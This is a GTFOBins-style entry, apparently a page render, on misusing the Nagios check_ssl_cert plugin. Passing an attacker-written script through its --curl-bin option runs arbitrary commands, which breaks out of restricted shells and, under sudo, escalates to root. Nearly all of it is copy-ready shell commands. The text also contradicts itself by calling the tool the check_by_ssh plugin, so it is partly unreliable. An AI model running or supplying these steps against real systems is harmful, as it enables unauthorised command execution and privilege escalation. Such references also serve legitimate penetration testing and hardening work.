 # GTFOBin: check_ssl_cert

This is the `check_by_ssh` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`.

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

The host example.net must return a certificate via TLS

```
COMMAND=id
OUTPUT=output_file
TF=$(mktemp)
echo "$COMMAND | tee $OUTPUT" > $TF
chmod +x $TF
check_ssl_cert --curl-bin $TF -H example.net
cat $OUTPUT
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The host example.net must return a certificate via TLS

```
COMMAND=id
OUTPUT=output_file
TF=$(mktemp)
echo "$COMMAND | tee $OUTPUT" > $TF
chmod +x $TF
umask 022
check_ssl_cert --curl-bin $TF -H example.net
cat $OUTPUT
```